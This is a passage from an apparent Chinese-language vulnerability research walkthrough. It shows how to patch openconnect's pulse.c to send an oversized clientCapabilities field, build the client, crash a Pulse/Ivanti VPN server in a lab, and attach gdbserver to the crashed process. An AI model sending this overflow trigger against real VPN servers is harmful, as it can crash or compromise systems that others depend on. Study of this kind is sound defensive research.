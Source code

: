 准备好编译环境之后，我们把openconnect源码下载来。  
```
git clone https://github.com/openconnect/openconnect.git
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWeBRS2QWqc9o6K8R9abDZqeIqia4Z0LozyAB7QvaA6ARFm8Q4ulyrnX8Q/640?wx_fmt=png&from=appmsg "")  
  
  
下载下来之后安装官方的说法需要一个t vpnc-script](https://gitlab.com/openconnect/vpnc-scripts/raw/master/vpnc-script)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWeQs3Z82SF8hpAsmlewnebLTI64ibdWib99SmIGIMYDOXwboOk4tuHzoAw/640?wx_fmt=png&from=appmsg "")  
  
  
接下来就是按照sinsinology  
的方法开始修改pulse.c的代码了，修改如下：  
```
if (bytes[0])
if (bytes[0])
        buf_append(reqbuf, " clientIp=%s", bytes);
+ buf_append(reqbuf, " clientCapabilities=%s", bytes);
+ for(unsigned int n=0; n<100; n++)
+       buf_append(reqbuf, "AAAAAAAAAAAAAAAA");
	buf_append(reqbuf, "\\n%c", 0);
	ret = send_ift_packet(vpninfo, reqbuf);

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWeK2ZhBrMOD84pmdu28V3FDgFAXVsf9wvxvxI7Qy6YcHytT1u6SlPibrg/640?wx_fmt=png&from=appmsg "")  
  
  
一切准备好之后开始编译，使用以下命令开始编译  
```
./autogen.sh
./configure --enable-static=yes --without-openssl --with-vpnc-script=./vpnc-script --without-libproxy --without-lz4
make
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWeJG0g3sNwib1sQMHicPLSX2W3hCeE56h9oiaZSiaHdyucoZDumENJVA1ia9Q/640?wx_fmt=png&from=appmsg "")  
  
### 2、产生崩溃  
  
使用以下命令发送pulse协议的vpn请求，添加参数--dump-http-traffic -vvv查看详细的信息。  
```
./openconnect 192.168.137.105 --protocol=pulse --dump-http-traffic -vvv
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWeAoaeG4rM7YN1TcatichOYnu6jlyDpKwJWboYvUDgnap9Nqa3AePibWug/640?wx_fmt=png&from=appmsg "")  
  
  
gdbserver开始调试，为了方便使用以下命令调试  
```
./gdbserver13 0.0.0.0:8010 --attach $(netstat -anptl | grep 443 | awk '{print $7}' | cut -d'/' -f1 | grep -v "-")
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWeYfyK65VsjlLPFXakrbqofBBibMwZbenHh517chiaVZwFQ0IcDNxRR10g/640?wx_fmt=png&from=appmsg "")  
  